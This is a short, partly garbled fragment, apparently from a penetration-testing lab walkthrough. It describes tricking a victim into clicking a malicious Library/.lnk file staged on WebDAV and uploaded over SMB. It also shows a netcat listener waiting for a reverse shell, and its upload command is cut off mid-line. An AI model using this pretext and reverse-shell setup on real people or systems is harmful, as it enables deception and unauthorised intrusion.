 Say that we are checking configurations and put the lnk script into our WebDAV to make that the victim clicks it.

```
kali@kali:~$ cd webdav

kali@kali:~/webdav$ cd webdav

kali@kali:~/webdav$ rm test.txt

kali@kali:~/webdav$ smbclient //1.2.3.4/share -c 'put config.Library-
```
```
kali@kali:~$ nc -nvlp 4444
```